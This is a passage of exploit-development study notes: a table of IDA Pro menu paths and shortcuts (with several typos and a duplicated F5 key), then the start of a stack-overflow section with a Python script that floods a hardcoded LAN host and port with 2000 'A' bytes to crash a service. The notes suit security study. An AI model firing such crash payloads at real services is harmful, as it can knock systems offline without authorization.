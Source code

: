 | Search Function | `Jump > Funcions` | `CTRL+P`(`CTRL+F` to search for function) | open Jump to a function windows |
| Search globa variables | `Jump > Jump by name` | `CTRL+L` | Search for globa variables |
| Cross-Referencing | n/a | `X` | Detect all usages of a specific function or global variable |
| Searching | n/a | `CTRL+F` | Use when highlight any object so it takes you to it's all refereces |
| Descompile | `Views > Open subviews > Generate pseudocode` | `F5` | Decompiling |
| Comment-pseudocode| n/a | `/` | Add comment on the decompiled code |
| Synchronize | `Right click > Synchronize with` | n/a | Synchronize pseudocode with disasembly window |
| prefixes | `Options > General > Line prefixes (graph)` | n/a | Enable line prefixes in the graph view. |
| Address Range | `Segements > Rebase Program` | n/a | Rebase the whole program address |
| Jump Address| `Jump > Jump to address` | `G` | Jump to address |
| PDB file | `File > Load file > PDB file` | n/a | Load PDB file |
| Debug | `Debugger> Start process` | `F9` | Start Debugging |
| Breakpoint | `Right Click > Add Breakpoint` | `F2` | Set a Breakpoint |
| Breakpoints list | `Debugger > Breakpoint > Breakpoint list` | `CTRL+ALT+B` | Show the breakpoints list |
| Stack View | `Right Click > Data Format > ...` | n/a | Change data format on stack view |
| Step Over | `Debugger > Step Over` | `F5` | Take a step over in debugging |
| Patching | `Edit > Patch program > Assemble` | n/a | Patch highlited instruction |
| Apply Patching | `Edit > Patch program > Apply patches to input file` | n/a | Apply Instruction Patching |

## Referances
- https://www.hex-rays.com/products/ida/support/freefiles/IDA_Pro_Shortcuts.pdf
- https://cheatography.com/chrischurilla/cheat-sheets/intro-to-ida/

# Stack Overflows
## 1- Crashing The App
You send a request with huge data input and review the app if crash or no, Sometimes the App may not crash if you didn't send the data at once.
### Network Script
```
#!/usr/bin/python
import socket, os, time, struct

host = "192.168.0.101"
port = 8433
size = 2000
buffer = b"\x41" * size
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.connect((host, port))
s.send(buffer)
s.close()

```
### Web Script
```
#!/usr/bin/python
import socket, sys

```
